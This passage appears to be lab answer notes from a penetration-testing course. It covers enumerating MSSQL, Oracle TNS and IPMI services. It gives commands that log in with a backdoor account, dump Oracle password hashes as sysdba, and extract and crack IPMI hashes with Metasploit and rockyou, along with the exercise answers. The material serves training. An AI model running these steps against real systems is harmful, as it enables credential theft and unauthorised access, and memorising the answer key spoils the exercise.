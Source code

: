 
**Connect to the MSSQL instance running on the target using the account (backdoor:Password1), then list the non-default database present on the server.**

```
mssqlclient.py backdoor@$ip -windows-auth -p 1433

SELECT name FROM master.dbo.sysdatabases

```

Results: Employees

#### Oracle TNS

Enumerate the target Oracle database and submit the password hash of the user DBSNMP as the answer.

```
python3 ./odat.py all -s $ip
# With this we obtain the creds scott/tiger

# Now we connect to the database
sqlplus scott/tiger@$ip/XE as sysdba

# Extract Password Hashes
select name, password from sys.user$;
```

Results: E066D214D5421CCC

#### IPMI

**What username is configured for accessing the host via IPMI?**

```
sudo msfdb init
msfconsole -q
use auxiliary/scanner/ipmi/ipmi_dumphashes
setg RHOSTS $ip
run
```

Results: admin

**What is the account's cleartext password?**

```
sudo msfdb init
msfconsole -q
use auxiliary/scanner/ipmi/ipmi_dumphashes
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
```

Results: trinity


### Skills assessment
